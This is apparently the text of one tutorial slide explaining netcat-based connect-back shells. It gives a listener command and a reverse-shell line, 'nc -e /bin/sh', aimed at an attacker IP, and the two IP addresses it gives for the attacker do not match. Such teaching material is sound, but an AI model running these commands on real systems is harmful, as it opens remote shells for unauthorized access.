

# Non assembly level connect back shells
netcat
commonly used to listen to incoming connections
nc -v -l -p 31337
listen on port 31337
-v = verbose
Using netcat to spawn a connect back shell:
nc -e /bin/sh <target ip> <port>
so to set up a listener on attacker 192.168.1.166:
nc -v -l -p 31337
to connect back to attacker:
nc -e /bin/sh 192.168.1.116 31337